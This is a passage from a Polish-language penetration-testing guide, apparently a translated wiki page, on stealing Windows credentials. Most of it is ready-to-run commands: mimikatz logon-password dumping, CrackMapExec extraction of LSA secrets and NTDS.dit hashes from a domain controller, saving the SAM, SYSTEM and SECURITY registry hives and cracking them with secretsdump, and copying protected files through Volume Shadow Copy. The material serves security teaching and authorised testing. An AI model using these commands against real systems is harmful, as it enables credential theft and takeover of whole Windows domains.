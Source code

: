 ```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```
### Zrzut NTDS.dit z docelowego DC
```
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```
### Zrzut historii haseł NTDS.dit z docelowego DC
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```
### Pokaż atrybut pwdLastSet dla każdego konta NTDS.dit
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```
## Stealing SAM & SYSTEM

Te pliki powinny być **zlokalizowane** w _C:\windows\system32\config\SAM_ i _C:\windows\system32\config\SYSTEM._ Ale **nie możesz ich po prostu skopiować w zwykły sposób**, ponieważ są chronione.

### Z Rejestru

Najłatwiejszym sposobem na kradzież tych plików jest uzyskanie kopii z rejestru:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Pobierz** te pliki na swoją maszynę Kali i **wyodrębnij hashe** używając:
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
### Volume Shadow Copy

Możesz wykonać kopię chronionych plików za pomocą tej usługi. Musisz być Administratorem.

#### Używając vssadmin

Plik binarny vssadmin jest dostępny tylko w wersjach Windows Server
```bash
vssadmin create shadow /for=C:
#Copy SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SAM C:\Extracted\SAM
#Copy SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM
#Copy ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

# You can also create a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
Ale możesz zrobić to samo z **Powershell**. To jest przykład **jak skopiować plik SAM** (używany dysk twardy to "C:" i jest zapisywany do C:\users\Public), ale możesz użyć tego do kopiowania dowolnego chronionego pliku:
```bash
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
```
